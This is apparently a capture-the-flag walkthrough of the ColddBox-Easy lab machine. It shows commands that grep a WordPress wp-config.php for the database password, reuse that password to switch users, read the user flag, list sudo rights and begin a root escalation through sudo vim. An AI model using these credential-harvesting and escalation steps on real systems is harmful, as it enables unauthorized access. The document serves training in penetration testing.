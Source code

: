 As the password for user `*****` on `WordPress` is not that same as his system password. We need to find another way. Usually, glitches happens when user reuse their passwords. This user did not reuse his `WordPress` password for his system account. But maybe we can find something else in the configuration files of the `WordPress` website.

````commandline
www-data@ColddBox-Easy:/var/www/html$ ls
hidden           wp-blog-header.php    wp-includes        wp-signup.php
index.php        wp-comments-post.php  wp-links-opml.php  wp-trackback.php
license.txt      wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html      wp-config.php         wp-login.php
wp-activate.php  wp-content            wp-mail.php
wp-admin         wp-cron.php           wp-settings.php
````

And looking in the `wp-config.php`, we can see the database password.

````commandline
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep DB_PASSWORD
define('DB_PASSWORD', '*************');
````

And with this password, we can finally log in with user `*****`.

````commandline
www-data@ColddBox-Easy:/var/www/html$ su *****
Password: 
*****@ColddBox-Easy:/var/www/html$ cd /home/c0ldd/
*****@ColddBox-Easy:~$ cat user.txt 
Rm**********ZXMsIHByaW1lciBuaXZlbCBjb25z**********==
````

## Vertical privilege escalating

Looking now how we can escalate the user privileges. I first tend to look with `sudo`, as this is a classic. But shoot! This is spanish and the message confuse me so much. I don't master spanish except for ordering "2 cervesas por favor". The day after, "agua sun gaz por favor". And even then, not sure about the spelling at all.

````commandline
*****@ColddBox-Easy:~$ sudo -l
[sudo] password for *****: 
Coincidiendo entradas por defecto para ***** en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
*****@ColddBox-Easy:~$
````

So let's try!

````commandline
sudo /usr/bin/vim
````
